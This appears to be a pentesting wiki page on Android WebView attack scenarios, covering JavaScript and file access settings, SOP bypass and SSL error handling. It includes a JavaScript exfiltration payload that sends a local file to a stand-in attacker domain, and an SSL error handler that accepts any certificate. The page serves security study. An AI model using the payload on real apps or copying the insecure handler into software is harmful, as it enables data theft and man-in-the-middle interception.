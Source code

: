 # Webview Attacks

## Javascript Enabled

_WebViews_ have _Javascript_ disabled by default. The method [_setJavaScriptEnabled\(\)_](https://developer.android.com/reference/android/webkit/WebSettings.html#setJavaScriptEnabled%28boolean%29) is available for explicitly enabling or disabling it. Note that webviews can also support the **`intent`** **scheme** that allows to fire other applications. Read this [writeup to find how to go from XSS to RCE](https://medium.com/@dPhoeniixx/tiktok-for-android-1-click-rce-240266e78105).

## File Access

_WebView_ file access is enabled by default. Since API 3 \(Cupcake 1.5\) the method [_setAllowFileAccess\(\)_](https://developer.android.com/reference/android/webkit/WebSettings.html#setAllowFileAccess%28boolean%29) is available for explicitly enabling or disabling it.

If the application has _android.permission.READ\_EXTERNAL\_STORAGE_ it will be able to read and load files from the external storage.

 The _WebView_ needs to use a File URL Scheme, e.g., `file://path/file`, to access the file.

## CORS - Cross Origin Resource Sharing

**If you want to**[ **learn what is CORS please read this post**](../../pentesting-web/cors-bypass.md)**.**

There is a very important property called _**UniversalAccessFromFileURLs**_ **that allows SOP bypass**. This property indicates whether _Javascript_ running in the context of a file scheme can **access content from any origin**. This property is enabled by default below API 16 \(Jelly Bean 4.1.x\) and there is no way to disable it on those API levels \[[1](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html#note1)\]. In API 16 \(Jelly Bean 4.1.x\) and afterwards the property is **disabled by default**. The method [_**setAllowUniversalAccessFromFileURLs\(\)**_](https://developer.android.com/reference/android/webkit/WebSettings.html#setAllowUniversalAccessFromFileURLs%28boolean%29) ****was also made available to explicitly **enable or disable this feature**.

## Scenarios

### Javascript Enabled & FileSystemAccess Disabled

In this scenario an attacker is able to **inject Javascript code** inside the web page opened via **webview** by the victim. This could be done maybe via **XSS** or making the webview **load** a **malicious HTML** page stored inside the phone.  
This **webview has Javascript enabled** but no access to the file system.

In this scenario the attacker **won't be able to read local files**, but depending on the permissions of the application this **could allow an attacker to interact with the functionality of the device** \(read SMS, microphone recording etc.\) exposing the security of the application and the device itself into great risk.

### Javascript Enabled & FileSystemAccess enabled

The scenario is like the one mentioned previously but the **webview now have FileSystem access**.  
An attacker could try to ex-filtrate files with javascript code like:

```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
    window.location.replace('https://attackerdomain.com/?exfiltrated='+xhr.responseText);
    }
}
xhr.open('GET', 'file:///data/data/pt.integrity.labs.webview_remote/files/sandbox_file.txt', true);
xhr.send(null);
```

So **even with file access enabled** in the _WebView_, due to the fact that the file scheme request is considered a **Cross Origin Request** and hence **disallowed**, the attacker will **not be able to exfiltrate** files this way.

Note that if the **attacker is able to control the mobile** where the vulnerable application is running, he could be able to abuse it to **make it load the internal file and see it**. In this case the CORS isn't stopping the attack because the attacker is **directly accessing the file instead of trying to access it from a different origin**. 

**CORS related errors looks like this:**

```javascript
05-09 12:38:59.306 27768 27768 I chromium: [INFO:CONSOLE(20)] “Failed to load file:///data/data/pt.integrity.labs.webview_remote/files/sandbox_file.txt: Cross origin requests are only supported for protocol schemes: http, data, chrome, https.”, source: https://labs.integrity.pt/ (20)
```

### Javascript Enabled, FileSystemAccessEnabled & CORS Disabled

In this scenario, using the same Javascript payload, you will finally **be able to ex-filtrate internal files.**

## **SSL Error Handling**

The code below instructs the WebView client to **proceed when an SSL error occur**. This means that the **application is vulnerable to MiTM attacks** as it could allow an attacker to read or modify content that is displayed to the user since any certificate would be accepted by the application.

```javascript
@Override
public void onReceivedSslError(WebView view, SslErrorHandler handler,
SslError error)
{
    handler.proceed();
}
```

## **References**

* \*\*\*\*[**https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html**](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)\*\*\*\*
* \*\*\*\*[**https://pentestlab.blog/2017/02/12/android-webview-vulnerabilities/**](https://pentestlab.blog/2017/02/12/android-webview-vulnerabilities/)\*\*\*\*

